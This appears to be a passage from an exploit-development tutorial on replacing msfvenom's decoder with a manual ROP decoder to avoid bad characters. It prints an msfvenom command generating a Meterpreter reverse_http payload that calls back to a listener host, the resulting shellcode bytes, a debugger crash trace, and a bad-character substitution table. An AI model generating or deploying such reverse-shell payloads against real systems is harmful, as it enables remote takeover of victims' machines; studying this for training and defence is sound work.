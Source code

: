 # Problem
The problem is that we generated a shellcode with msfvenom that avoid several badchars:
```C
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Encoding failed due to a bad character (index=667, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 714 (iteration=0)
x86/call4_dword_xor chosen with final size 714
Payload size: 714 bytes
Final size of python file: 3978 bytes
shellcode =  b""
shellcode += b"\x33\xc9\x66\x81\xe9\x54\xff\xe8\xff\xff\xff"
shellcode += b"\xff\xc0\x5e\x81\x76\x0e\xa4\x94\xf7\xb3\x83"
shellcode += b"\xee\xfc\xe2\xf4\x58\x7c\x78\xb3\xa4\x94\x97"
shellcode += b"\x82\x76\x1d\x12\xd7\x2f\xc6\xc7\x38\xf6\x98"
shellcode += b"\x7c\xe1\xb0\x9b\x40\xf9\x82\x1f\x85\x9b\x95"
shellcode += b"\x6b\xc6\x73\x08\xa8\x96\xcf\xa6\xb8\xd7\x72"
shellcode += b"\x6b\x99\xf6\x74\xed\xe1\x18\xe1\xf3\x1f\xa5"
shellcode += b"\xa3\x2f\xd6\xcb\xb2\x74\x1f\xb7\xcb\x21\x54"
```

This shellcode has several instructions that try to "decode" its own code in order to replace some bytes for other bytes (let's say it's trying to restore itself). For that, it needs to write in the address where it is stored, giving us an error when the codecave does not have write permissions, which is the case:
```c
0:085> g (1a54.fe8): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=01bb2c04 ebx=05ebc5b0 ecx=0000008d edx=1860bbcc esi=42424242 edi=00669360 eip=01bb2c14 esp=1111e30c ebp=41414141 iopl=0 nv up ei pl zr na pe nc cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246 
libeay32IBM019!N98E_bn_sub_words+0x108c:
01bb2c14 31501a xor dword ptr [eax+1Ah],edx ds:0023:01bb2c1e=9a884739
```

At this point, we know we need to avoid bad characters in our shellcode and can not rely on the msfvenom decoder. 
In this section, we’ll learn how to manually implement a ROP decoder and test it.

# Step 1.  Find replacement alternatives
First, let’s replace the bad characters with safe alternatives that will not break the exploit. To begin, we’ll select arbitrary replacement characters for our badchars:
```c
0x00 -> 0xff 
0x09 -> 0x10 
0x0a -> 0x06 
0x0b -> 0x07 
0x0c -> 0x08 
0x0d -> 0x05 
0x20 -> 0x1f
```
